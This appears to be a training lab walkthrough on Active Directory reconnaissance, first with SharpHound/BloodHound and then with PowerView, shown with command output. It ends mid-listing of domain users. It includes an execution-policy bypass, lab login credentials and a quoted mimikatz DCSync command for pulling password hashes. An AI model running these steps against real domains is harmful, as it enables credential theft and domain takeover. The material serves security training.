SharpHound is the official data collector for BloodHound.

*Collect the Active Directory domain data*

`Import-Module .\SharpHound.ps1`

`Invoke-BloodHound -CollectionMethod All -OutputDirectory $HOME\Desktop`:
```
2024-06-12T08:40:26.3368993+00:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-06-12T08:40:26.6962728+00:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote ←
2024-06-12T08:40:26.7431447+00:00|INFORMATION|Initializing SharpHound at 8:40 AM on 6/12/2024
2024-06-12T08:40:26.9775053+00:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for research.SECURITY.
local : prod.research.SECURITY.local ←
2024-06-12T08:40:27.1025650+00:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-06-12T08:40:27.3056928+00:00|INFORMATION|Beginning LDAP search for research.SECURITY.local
2024-06-12T08:41:15.6021922+00:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 148 MB RAM
2024-06-12T08:41:15.8834312+00:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for SECURITY.local : dc2012.SECURITY.local ←
2024-06-12T08:41:17.4771723+00:00|INFORMATION|Producer has finished, closing LDAP channel
2024-06-12T08:41:17.4928509+00:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-06-12T08:41:18.5797422+00:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2024-06-12T08:41:18.6266284+00:00|INFORMATION|Output channel closed, waiting for output task to complete
2024-06-12T08:41:20.0563099+00:00|INFORMATION|Status: 1403 objects finished (+1403 26.98077)/s -- Using 150 MB RAM
2024-06-12T08:41:20.0563099+00:00|INFORMATION|Enumeration finished in 00:00:52.7578075
2024-06-12T08:41:20.2750516+00:00|INFORMATION|Saving cache with stats: 1368 ID to type mappings.
 1374 name to SID mappings.
 1 machine sid mappings.
 5 sid to domain mappings.
 0 global catalog mappings.
2024-06-12T08:41:20.3219342+00:00|INFORMATION|SharpHound Enumeration Completed at 8:41 AM on 6/12/2024! Happy Graphing! ←
```

All the data collected will be stored as a zip file in the current directory.

`ls $HOME\Desktop *.zip`:
```
    Directory: C:\Users\student\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/12/2024   8:55 AM         109115 20240612085524_BloodHound.zip ←
```

Now, we can directly upload this file in BloodHound.

*Open the BloodHound GUI*

`cd C:\Tools\BloodHound\BloodHound`, `.\BloodHound.exe`

Use the following credentials to log in:
- Username: "neo4j"
- Password: "Password@123".

*Upload the collected data*

Now, click on **Upload Data** and then upload the zip file generated before. In this case, it is present in `$HOME\Desktop`.

Once the upload is complete, click on **Clear Finished** and close the **Upload Progress** box.

Next, expand the top left menu. On the **Database Info** tab, scroll down the menu and click on **Refresh Database Stats** once to refresh the object counts and other stats.

We are now ready to explore the environment.

1. **Find all Domain Admins and their SID’s.**

Go to the **Analysis** tab. This contains a list of pre-built queries that we can directly run. Click on **Find all Domain Admins** query to run it.
You will be presented with a graph that shows that there are 3 members in the **Domain Admins** group (e.g. ELISE_GUZMAN: S-1-5-21-1693200156-3137632808-1858025440).
Hit CTRL to show/hide node labels.

You can click on any node to view all the information regarding that node under the **Node info** tab on the left menu. The SID of each of the member is listed under **Node Properties**.

2. **Find all Kerberoastable accounts.**

On the **Analysis** tab, click on **List all Kerberoastable accounts** query to run it. This will show all the users that are Kerberoasatable. Click on any user node to view more information regarding that user.
You can find the associated Service Prinicipal Name (SPN) under **Node Properties** (e.g. ELVIS_GOFF - CIFS/TSTWWKS1000002).

3. **Find AS-REP Roastable users.**

On the **Analysis** tab, click on **Find AS-REP Roastable Users (DontReqPreAuth)** query to run it. This will show all the users that are AS-REP roasatable.

Note that for a user that is AS-REP roasatable, the **AS-REP Roasatable** parameter under **Node Properties** of that user will be set to **True**.

4. **Can ROXANNE_SULLIVAN perform a DCSync attack on the current domain?**

**DCSync** is an attack technique that allows an attacker <u>to simulate the behaviour of a domain controller</u> and extract password data through domain replication.
The primary purpose of this attack is often to <u>obtain the KRBTGT hash</u>, which can be a prelude for launching a [Golden Ticket attack](https://blog.quest.com/golden-ticket-attacks-how-they-work-and-how-to-defend-against-them/).
It is implemented as a command in tools like Mimikatz, leveraging the Directory Replication Service Remote Protocol (MS-DRSR) to <u>mimic a domain controller's behavior and request replication from other domain controllers</u>.

Let's list all the principals that hold DCSync rights. For this, click on **Find Principals with DCSync Rights** query to run it. Choose the current domain (i.e. "research.SECURITY.local").

You will be presented with a graph. You can zoom in or zoom out as per your convenience. We can see that "ROXANNE_SULLIVAN" does have DCSync rights on the current domain using which she can perform a DCSync attack. You can right click on the edge and click on **Help** to view more information.

```
The user ROXANNE_SULLIVAN@RESEARCH.SECURITY.LOCAL has <u>the DS-Replication-Get-Changes and the DS-Replication-Get-Changes-All privilege on the domain</u> RESEARCH.SECURITY.LOCAL.

<u>These two privileges allow a principal to perform a DCSync attack</u>.
```

You can also find details regarding the abuse and other references here.

```
<u>You may perform a DCSync attack to get the password hash of an arbitrary principal</u> using mimikatz:

`lsadump::dcsync /domain:testlab.local /user:Administrator`

You can also perform the more complicated ExtraSids attack to hop domain trusts. For information on this see the blog post by harmj0y in the references tab.
```

5. **Which Kerberoastable user is a member of a high valued group - "Account Operators"?**

Simply run the **Find Kerberoastable Members of High Value Groups** query from the **Analysis** tab.

We can see from the graph that "TESSA_HAHN" is a Kerberoastable user who is a member of the **Account Operators** group.

```
The user TESSA_HAHN@RESEARCH.SECURITY.LOCAL is a member of the group ACCOUNT OPERATORS@RESEARCH.SECURITY.LOCAL.

Groups in active directory grant their members any privileges the group itself has. If a group has rights to another principal, users/computers in the group, as well as other groups inside the group inherit those permissions.
```

6. **Find the members of the "Backup Operators" group.**

Search for the "Backup Operators" group from the search bar. Once you have it on the graph, click on the node.
Next, navigate to the **Group Members** section under the **Node info** tab.
You will find three types of group members:
- **Direct Members:** The number of principals that have been directly added to this group.
- **Unrolled Members:** The actual number of users that effectively belong to this group, no matter how many layers of nested group membership that goes.
- **Foreign Members:** The number of users from other domains that belong to this group.

You can click on each of them to see the desired members. In our case, there are only 3 direct members to the "Backup Operators" group.

7. **Find the group membership of a user named "CHADWICK_YORK".**

Search for "CHADWICK_YORK" and once you have the user node on the graph, click on it. Scroll down to the **Group Membership** section under the **Node Info** tab.

We have three types of group memberships:
- **First Degree Group Memberships:** AD security groups the user is directly added to.
- **Unrolled Group Membership:** Groups can be added to groups, and those group nestings can grant admin rights, control of AD objects, and other privileges to many more users than intended. These are the groups that this user effectively belongs to, because the groups the user explicitly belongs to have been added to those groups.
- **Foreign Group Membership:** Groups in other Active Directory domains this user belongs to.

8. **To what OU is the "NewCompPolicy2" GPO linked to?**

Type "GPO:" in the search bar to view the available GPO's and then select "NewCompPolicy2" from it.
Once you have it on the graph, click on it and then navigate to the **Affected Objects** section under **Node Info**. Now, click on **Directly Affected OUs**. From the graph, it is clear that the the "NewCompPolicy2" GPO is linked to the OU "AZR".
An OU can contain other OUs within that may be affected by the GPO. Click on **Affected OUs** to view them as well.
You can also click on an OU for more information regarding it. Let's click on the "AZR" OU. And then, click on **See OU Within Domain Tree** as shown below, to understand the hierarchial structure if any. It can been see that the "AZR" OU is under another OU named "STAGE".

9. **Find the shortest path to Domain Admins from a Kerberoastable user "BEATRIZ_MATHEWS".**

There can be multiple ways to do this.
Let's look at the first method. Click on the **Pathfinding** icon on the left menu. Type and select "BEATRIZ_MATHEWS" as the start node and then type and select "Domain Admins" as the target node. Run it.
The graph shows the path that could be exploited by "BEATRIZ_MATHEWS" to reach the "Domain Admins" group. You can always click on **Change Layout Type** option on the right to view the graph differently.

Another method is to first search for the "BEATRIZ_MATHEWS" user. Now, let's say you have compromised the "BEATRIZ_MATHEWS" user account. You can mark this user as compromised or owned by right clicking on the node and selecting **Mark User as Owned**.
A little skull icon will appear on the node indicating that you have control over this object. After that, you can go to **Analysis** tab and run the **Shortest Paths to Domain Admins from Owned Principals** query.
This will again show you the same graph as before.

10. **Find all the reachable high value targets from the "CR-NOWAYIAMT-DISTLIST1" group.**

Search for the "CR-NOWAYIAMT-DISTLIST1" group and then click on the node. Now, simply click on **Reachable High Value Targets** in the **Overview** section under **Node info**.
The graph shows the path to all the reachable high value targets from the "CR-NOWAYIAMT-DISTLIST1" group.

11. **List the outbound object control for "HELENE_CARPENTER".**

Search for "HELENE_CARPENTER" and then click on the user node. On the **Node info** tab, scroll down to the **Outbound Object Control** section.

We have three types of outbound object control:
- **First Degree Object Control:** The number of objects in AD where this user is listed as the IdentityReference on an abusable ACE. In other words, the number of objects in Active Directory that this user can take control of, without relying on security group delegation.
- **Group Delegated Object Control:** The number of objects in AD where this user has control via security group delegation, regardless of how deep those group nestings may go.
- **Transitive Object Control:** The number of objects this user can gain control of by performing ACL-only based attacks in Active Directory. In other words, the maximum number of objects the user can gain control of without needing to pivot to any other system in the network, just by manipulating objects in the directory.

### PowerView - Video/Lab

#### Lab Environment

In this lab environment, you will be provided with GUI access to a Windows machine (2012). This machine will serve as your attacker machine. Your task in this lab is to enumerate the Active Directory environment.

**Objective**: Perform Active Directory enumeration.

Below are the tasks that you need to perform:
1. Enumerate local users & groups
2. Enumerate Domain
3. Enumerate Domain Users
4. Enumerate Domain Computers
5. Enumerate Domain Groups
6. Enumerate Domain Shares
7. Enumerate GPOs and OUs
8. Enumerate Domain Trust & Forest Trust
9. Enumerate ACLs
10. Find Kerberoastable accounts
11. Find AS-REP roastable accounts.

**Note:** All the tools are present in the `C:\Tools` directory.

The best tools for this lab are:
- PowerShell
- PowerView.ps1.

#### Lab Solution

`powershell -ep bypass`: to bypass the execution policy to allow running scripts.

`cd C:\Tools`, `Import-Module .\PowerView.ps1`: to import the [PowerView module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

`Get-Domain`: <u>to get information about the current domain</u>.
(Retrieving general information about the current Active Directory domain.)
`Get-DomainSid`: <u>to get the SID (Security Identifier) of the current domain</u>.
(Fetching the Security Identifier (SID) of the current domain, which is used for various security operations and identifications.)
`Get-DomainPolicy`: <u>to get the domain policies</u>.
(Retrieving the domain policies, which include settings that apply to all users and computers in the domain.)
`(Get-DomainPolicy).SystemAccess`: to get system access policies of the domain.
(Extracting specific system access policies from the domain policy.)
`Get-DomainController`: <u>to get information about domain controllers in the current domain</u>.
(Obtaining details about the domain controllers in the current domain, which are crucial for domain management and authentication.)

`Get-DomainUser | Select SamAccountName,ObjectSid`: <u>to get a list of users with their SAM account name and object SID</u>.
(Listing all domain users along with their Security Account Manager (SAM) account names and object SIDs.)
`Get-DomainUser -Identity DEVON_HOOD`: <u>to get detailed information about a specific user</u> DEVON_HOOD.
(Fetching detailed information about a specific user identified as DEVON_HOOD.)
`Get-DomainUser -Identity DEVON_HOOD -Properties DisplayName,MemberOf,ObjectSid,UserAccountControl | List`: to get specific properties of the user DEVON_HOOD.
(Retrieving and listing specific properties for the user DEVON_HOOD, such as DisplayName, group memberships, Object SID, and User Account Control settings.)

`Get-NetComputer | Select Name`: to get a list of computers with their names.
(Obtaining a list of computers in the domain along with their names.)
`Get-NetComputer | Select CN,OperatingSystem`: to get a list of computers with their common names (CN) and operating systems.
(Listing computers along with their common names and operating system details.)

`Get-NetGroup | Select Name`: to get a list of groups with their names.
(Fetching a list of all groups in the domain along with their names.)
`Get-NetGroup 'Domain Admins'`: <u>to get information about the 'Domain Admins' group</u>.
(Retrieving details about the 'Domain Admins' group, which typically has high-level privileges in the domain.)
`Get-NetGroupMember 'Domain Admins' | Select MemberName`: to get the members of the 'Domain Admins' group.
(Listing the members of the 'Domain Admins' group.)
`Get-NetGroup -UserName 'ELISE_GUZMAN' | Select Name`: <u>to get the groups that a specific user is a member of</u>.
(Identifying the groups that the user 'ELISE_GUZMAN' belongs to.)

`Get-NetShare`: <u>to get a list of shared folders on the network</u>.
(Listing all shared folders available on the network.)
`Find-DomainShare -ComputerName prod.research.SECURITY.local -Verbose`: <u>to find shared folders on a specific computer</u>.
(Searching for shared folders on a specific computer named 'prod.research.SECURITY.local' with verbose output for detailed information.)
`Find-DomainShare -ComputerName prod.research.SECURITY.local -CheckShareAccess -Verbose`: to find shared folders on a specific computer and check access to them.
(Finding shared folders on the specified computer and checking the current user's access permissions to those shares.)

`Get-NetGPO | Select DisplayName`: to get a list of Group Policy Objects (GPOs) with their display names.
(Retrieving a list of all Group Policy Objects (GPOs) in the domain along with their display names.)
`Get-NetOU | Select Name,DistinguishedName`: to get a list of Organizational Units (OUs) with their names and distinguished names.
(Listing all Organizational Units (OUs) in the domain along with their names and distinguished names.)

`Get-DomainTrust`: to get information about domain trusts.
(Obtaining details about trust relationships between the current domain and other domains.)
`Get-NetForest`: <u>to get information about the current forest</u>.
(Fetching information about the entire Active Directory forest, which is a collection of one or more domains.)
`Get-NetForestDomain`: to get a list of domains in the current forest.
(Listing all the domains that are part of the current Active Directory forest.)
`Get-NetForestTrust`: to get information about forest trusts.
(Retrieving details about trust relationships between different Active Directory forests.)
`Get-NetDomainTrustMapping`: to get a mapping of domain trusts.
(Generating a mapping of all trust relationships between domains in the forest.)

`Get-ObjectAcl -SamAccountName "Users" ResolveGUIDs`: to get the ACL (Access Control List) of the "Users" group and resolve GUIDs.
(Fetching the Access Control List (ACL) entries for the "Users" group and resolving the GUIDs to more readable names.)
`Find-InterestingDomainAcl -ResolveGUIDs | Select IdentityReferenceName,ObjectDN,ActiveDirectoryRights`: to find interesting ACLs in the domain and select their identity reference names, object distinguished names, and Active Directory rights.
(Searching for potentially interesting or exploitable ACLs in the domain and displaying key details about them.)

`Get-NetUser -SPN | Select SamAccountName,ServicePrincipalName`: to get a list of users with their SAM account name and Service Principal Name (SPN).
(Listing users along with their SAM account names and Service Principal Names, useful for Kerberos-based attacks.)
`Get-NetUser -PreauthNotRequired | Select SamAccountName,UserAccountControl`: <u>to get a list of users with their SAM account name and User Account Control settings where preauthentication is not required</u>.
(Identifying users who do not require preauthentication, which can be a potential vulnerability.)

`Find-LocalAdminAccess`: <u>to find machines where the current user has local admin rights</u>.
(Identifying machines on the network where the current user has local administrator access.)
`Find-DomainAdminAccess`: to find machines where Domain Admins have sessions.
(Searching for machines on the network where Domain Admins have active sessions, which can be valuable targets for escalation.)
`Get-ADDomainController`: to get a list of all domain controllers in the domain.
(Retrieving a list of all domain controllers in the domain, which are critical for domain operations.)
`Get-ADReplicationFailure`: to get information about replication failures in AD.
(Fetching details about any Active Directory replication failures, which can indicate issues in the domain.)
`Get-ADUser -Filter * | Select-Object Name, LastLogonDate`: to get a list of all users with their last logon dates.
(Listing all users in the domain along with their last logon dates to identify inactive accounts.)
`Get-ADGroupMember -Identity "Domain Admins"`: <u>to get members of the 'Domain Admins' group</u>.
(Fetching the members of the 'Domain Admins' group, who typically have high-level privileges in the domain.)

#### Lab Execution

1. **Enumerate local users & groups**

*Get current user*

`whoami`:
```
research\student ←
```

*Get current user privileges*

`whoami /priv`:
```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

*List groups to which the current user belongs to*

`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes

========================================== ================ ============ ===============================================
===
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled gr
oup
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled gr
oup
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled gr
oup
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled gr
oup
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled gr
oup
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled gr
oup
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled gr
oup
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled gr
oup
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled gr
oup
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```

*List everything about the current user*

`whoami /all`:
```
USER INFORMATION
----------------

User Name        SID
================ ==============================================
research\student S-1-5-21-1693200156-3137632808-1858025440-2698


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes

========================================== ================ ============ ===============================================
===
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled gr
oup
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled gr
oup
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled gr
oup
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled gr
oup
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled gr
oup
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled gr
oup
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled gr
oup
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled gr
oup
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled gr
oup
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

*List local users*

`Get-LocalUser`:
```
Name          Enabled Description
----          ------- -----------
Administrator True    Built-in account for administering the computer/domain ←
Guest         False   Built-in account for guest access to the computer/domain
```

`Get-LocalUser | Select Name,LastLogon`:
```
Name          LastLogon
----          ---------
Administrator 5/1/2023 9:11:27 AM
Guest
```

*List account policy settings*

`net accounts`:
```
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          0
Maximum password age (days):                          Unlimited
Minimum password length:                              0
Length of password history maintained:                24
Lockout threshold:                                    Never
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        SERVER
The command completed successfully.
```

*Get details about a specific local user*

`net user Administrator`:
```
User name                    Administrator ←
Full Name
Comment                      Built-in account for administering the computer/domain
User's comment
Country/region code          000 (System Default)
Account active               Yes ←
Account expires              Never

Password last set            9/22/2021 12:38:09 PM
Password expires             Never
Password changeable          9/22/2021 12:38:09 PM
Password required            Yes ←
User may change password     Yes ←

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/1/2023 9:11:27 AM

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.
```

*List local groups*

`Get-LocalGroup`:
```
Name                                Description                                                                        
----                                -----------                                                                        
WinRMRemoteWMIUsers__               Members of this group can access WMI resources over management protocols (such a...
Access Control Assistance Operators Members of this group can remotely query authorization attributes and permission...
Administrators                      Administrators have complete and unrestricted access to the computer/domain ←  
Backup Operators                    Backup Operators can override security restrictions for the sole purpose of back...
Certificate Service DCOM Access     Members of this group are allowed to connect to Certification Authorities in the...
Cryptographic Operators             Members are authorized to perform cryptographic operations.                        
Distributed COM Users               Members are allowed to launch, activate and use Distributed COM objects on this ...
Event Log Readers                   Members of this group can read event logs from local machine                       
Guests                              Guests have the same access as members of the Users group by default, except for...
Hyper-V Administrators              Members of this group have complete and unrestricted access to all features of H...
IIS_IUSRS                           Built-in group used by Internet Information Services.                              
Network Configuration Operators     Members in this group can have some administrative privileges to manage configur...
Performance Log Users               Members of this group may schedule logging of performance counters, enable trace...
Performance Monitor Users           Members of this group can access performance counter data locally and remotely     
Power Users                         Power Users are included for backwards compatibility and possess limited adminis...
Print Operators                     Members can administer printers installed on domain controllers                    
RDS Endpoint Servers                Servers in this group run virtual machines and host sessions where users RemoteA...
RDS Management Servers              Servers in this group can perform routine administrative actions on servers runn...
RDS Remote Access Servers           Servers in this group enable users of RemoteApp programs and personal virtual de...
Remote Desktop Users                Members in this group are granted the right to logon remotely                      
Remote Management Users             Members of this group can access WMI resources over management protocols (such a... ←
Replicator                          Supports file replication in a domain                                              
Users                               Users are prevented from making accidental or intentional system-wide changes an...
```

*Display members belonging to a group*

`Get-LocalGroupMember Administrators`:
```
ObjectClass Name                   PrincipalSource
----------- ----                   ---------------
User        CLIENT\Administrator ←                 
Group       RESEARCH\Domain Admins ←               
```

It can be seen that **Domain Admins** are a member of the Administrators group on the local system.
<u>The **Domain Admins** group is a built-in group that is created automatically when a domain is set up and typically has the highest level of administrative privileges within the domain</u>.
By compromising a user account or group membership within the **Domain Admins** group, <u>an attacker can potentially gain full control over the entire domain</u>, making it a prime target for exploitation during a red team engagement or an actual security breach.

*Additionally, we can also gather information about the network. Display all network interfaces, IP, and DNS*

`ipconfig /all`:
```
Windows IP Configuration

   Host Name . . . . . . . . . . . . : client
   Primary Dns Suffix  . . . . . . . : research.SECURITY.local ←
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : ap-southeast-1.ec2-utilities.amazonaws.com
                                       us-east-1.ec2-utilities.amazonaws.com
                                       ap-southeast-1.compute.internal
                                       research.security.local
                                       security.local

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : research.security.local
   Description . . . . . . . . . . . : Amazon Elastic Network Adapter
   Physical Address. . . . . . . . . : 02-23-FE-25-5D-9B
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::1179:4fba:349b:367d%13(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.0.0.101(Preferred) ←
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Lease Obtained. . . . . . . . . . : Monday, June 10, 2024 7:50:11 AM
   Lease Expires . . . . . . . . . . : Monday, June 10, 2024 8:50:11 AM
   Default Gateway . . . . . . . . . : 10.0.0.1 ←
   DHCP Server . . . . . . . . . . . : 10.0.0.1 ←
   DHCPv6 IAID . . . . . . . . . . . : 319220582
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2D-F8-68-13-02-23-FE-25-5D-9B
   DNS Servers . . . . . . . . . . . : 10.0.0.165 ←
                                       10.0.0.67 ←
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.research.security.local:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : research.security.local
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter #2
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```

`GetNetIpConfiguration`:
```
InterfaceAlias       : Ethernet
InterfaceIndex       : 13
InterfaceDescription : Amazon Elastic Network Adapter
NetProfile.Name      : SECURITY.local
IPv4Address          : 10.0.0.101 ←
IPv6DefaultGateway   :
IPv4DefaultGateway   : 10.0.0.1 ←
DNSServer            : 10.0.0.165 ←
                       10.0.0.67 ←
```

`Get-DnsClientServerAddress`:
```
InterfaceAlias               Interface Address ServerAddresses
                             Index     Family
--------------               --------- ------- ---------------
Ethernet                            13 IPv4    {10.0.0.165, 10.0.0.67} ←
Ethernet                            13 IPv6    {}
isatap.research.security....        15 IPv4    {10.0.0.165, 10.0.0.67} ←
isatap.research.security....        15 IPv6    {}
Loopback Pseudo-Interface 1          1 IPv4    {}
Loopback Pseudo-Interface 1          1 IPv6    {fec0:0:0:ffff::1, fec0:0:0:ffff::2, fec0:0:0:ffff::3}
```

2. **Enumerate Domain**

`powershell -ep bypass`

`cd C:\Tools`, `ls`:
```
    Directory: C:\Tools


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/22/2021  12:12 PM        2501632 hfs.exe
-a----        9/22/2021  12:12 PM        3190829 Invoke-Mimikatz.ps1
-a----        9/22/2021  12:12 PM          94961 Invoke-TokenManipulation.ps1
-a----        9/22/2021  12:12 PM        1253993 mimikatz.zip
-a----        9/22/2021  12:12 PM         111892 Netcat.zip
-a----        9/22/2021  12:12 PM         769757 PowerView.ps1 ←
-a----        9/22/2021  12:12 PM         790661 PowerView_dev.ps1
```

`Import-Module .\PowerView.ps1`

**About PowerView.ps1**. PowerView is a PowerShell tool to gain network situational awareness on Windows domains.
It contains a set of pure-PowerShell replacements for various windows `net *` commands, which utilize PowerShell AD hooks and underlying Win32 API functions to perform useful Windows domain functionality.

*Get current domain*

`Get-Domain`:
```
Forest                  : SECURITY.local ←
DomainControllers       : {prod.research.SECURITY.local} ←
Children                : {}
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  : SECURITY.local
PdcRoleOwner            : prod.research.SECURITY.local
RidRoleOwner            : prod.research.SECURITY.local
InfrastructureRoleOwner : prod.research.SECURITY.local
Name                    : research.SECURITY.local ←
```

*Get a specific domain*

`Get-Domain -Domain SECURITY.local`:
```
Forest                  : SECURITY.local ←
DomainControllers       : {dc2012.SECURITY.local} ←
Children                : {research.SECURITY.local}
DomainMode              : Windows8Domain
DomainModeLevel         : 5
Parent                  :
PdcRoleOwner            : dc2012.SECURITY.local
RidRoleOwner            : dc2012.SECURITY.local
InfrastructureRoleOwner : dc2012.SECURITY.local
Name                    : SECURITY.local ←
```

It can be seen that the name of the current domain is `research.SECURITY.local` which is a child domain of the `SECURITY.local` parent domain. The Fully Qualified Domain Name (FQDN) of the Domain Controller is `prod.research.SECURITY.local`.

*Get current domain SID*

`Get-DomainSid`:
```
S-1-5-21-1693200156-3137632808-1858025440
```

It retrieves the Security Identifier (SID) of the current domain. The SID is a unique identifier assigned to each object in Active Directory, including domains, users, groups, and computers.

*Get the current domain SID of a specific domain*

`Get-DomainSid -Domain SECURITY.local`:
```
S-1-5-21-2496296497-1864299928-297538345
```

*Get current domain policy*

`Get-DomainPolicy`:
```
Unicode        : @{Unicode=yes}
SystemAccess   : @{MinimumPasswordAge=0; MaximumPasswordAge=-1; MinimumPasswordLength=0; PasswordComplexity=0;
                 PasswordHistorySize=24; LockoutBadCount=0; RequireLogonToChangePassword=0;
                 ForceLogoffWhenHourExpire=0; ClearTextPassword=0; LSAAnonymousNameLookup=0} ←
KerberosPolicy : @{MaxTicketAge=10; MaxRenewAge=7; MaxServiceAge=600; MaxClockSkew=5; TicketValidateClient=1} ←
Version        : @{signature="$CHICAGO$"; Revision=1}
RegistryValues : @{MACHINE\System\CurrentControlSet\Control\Lsa\NoLMHash=System.Object[]}
Path           : \\research.SECURITY.local\sysvol\research.SECURITY.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F
                 9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf
GPOName        : {31B2F340-016D-11D2-945F-00C04FB984F9}
GPODisplayName : Default Domain Policy
```

`(Get-DomainPolicy)."SystemAccess"`:
```
MinimumPasswordAge           : 0
MaximumPasswordAge           : -1
MinimumPasswordLength        : 0
PasswordComplexity           : 0
PasswordHistorySize          : 24
LockoutBadCount              : 0
RequireLogonToChangePassword : 0
ForceLogoffWhenHourExpire    : 0
ClearTextPassword            : 0
LSAAnonymousNameLookup       : 0
```

`(Get-DomainPolicy)."KerberosPolicy"`:
```
MaxTicketAge         : 10
MaxRenewAge          : 7
MaxServiceAge        : 600
MaxClockSkew         : 5
TicketValidateClient : 1
```

*Get current domain controllers*

`Get-DomainController`:
```
Forest                     : SECURITY.local
CurrentTime                : 6/10/2024 9:02:43 AM
HighestCommittedUsn        : 69730
OSVersion                  : Windows Server 2012 R2 Standard
Roles                      : {PdcRole, RidRole, InfrastructureRole}
Domain                     : research.SECURITY.local ←
IPAddress                  : 10.0.0.165 ←
SiteName                   : Default-First-Site-Name
SyncFromAllServersCallback :
InboundConnections         : {b611dabd-4abb-423b-9163-8df96997e2e0}
OutboundConnections        : {96350cb4-e7cf-4854-b531-00320b4e9a54}
Name                       : prod.research.SECURITY.local ←
Partitions                 : {CN=Configuration,DC=SECURITY,DC=local, CN=Schema,CN=Configuration,DC=SECURITY,DC=local,
                             DC=ForestDnsZones,DC=SECURITY,DC=local, DC=research,DC=SECURITY,DC=local...}
```

*Get a specific domain controllers*

`Get-DomainController -Domain SECURITY.local`:
```
Forest                     : SECURITY.local
CurrentTime                : 6/10/2024 9:03:00 AM
HighestCommittedUsn        : 41055
OSVersion                  : Windows Server 2012 R2 Standard
Roles                      : {SchemaRole, NamingRole, PdcRole, RidRole...}
Domain                     : SECURITY.local ←
IPAddress                  : 10.0.0.67 ←
SiteName                   : Default-First-Site-Name
SyncFromAllServersCallback :
InboundConnections         : {96350cb4-e7cf-4854-b531-00320b4e9a54}
OutboundConnections        : {b611dabd-4abb-423b-9163-8df96997e2e0}
Name                       : dc2012.SECURITY.local ←
Partitions                 : {DC=SECURITY,DC=local, CN=Configuration,DC=SECURITY,DC=local,
                             CN=Schema,CN=Configuration,DC=SECURITY,DC=local,
                             DC=DomainDnsZones,DC=SECURITY,DC=local...}
```

3. **Enumerate Domain Users**

*List details of users in the current domain*

`Get-DomainUser`

*Get current domain users*

`Get-DomainUser | Select SamAccountName`:
```
samaccountname    
--------------    
Administrator     
Guest             
krbtgt            
